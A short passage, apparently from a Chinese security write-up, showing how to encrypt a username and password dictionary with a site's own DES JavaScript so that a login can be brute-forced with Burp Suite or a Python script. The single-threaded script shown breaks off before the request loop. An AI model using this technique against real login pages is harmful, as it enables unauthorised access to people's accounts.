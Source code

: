 [![](assets/1698897578-f7e2f4808fb666972133860aa89fa575.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160049-c9bb4bda-48b6-1.png)

这样就可以利用burpsuite/python脚本加载加密后的字典愉快的爆破啦。

py脚本爆破（单线程）：

```plain
#coding:utf-8
#from selenium import webdriver
import execjs
import requests
import re




successCount = 0


def mzDes(s,para):
    despara = execjs.get().compile(s).call("strEnc",para,"csc","mz","2017")
    return despara

with open('des.js','r') as mzCrypto:

        s = mzCrypto.read()
        with open('users.txt','r') as users:   #des username


        user = users.readlines()
        for u in user:
            with open('top50.txt','r') as pwds:   #des password
                    uname = u.strip()
```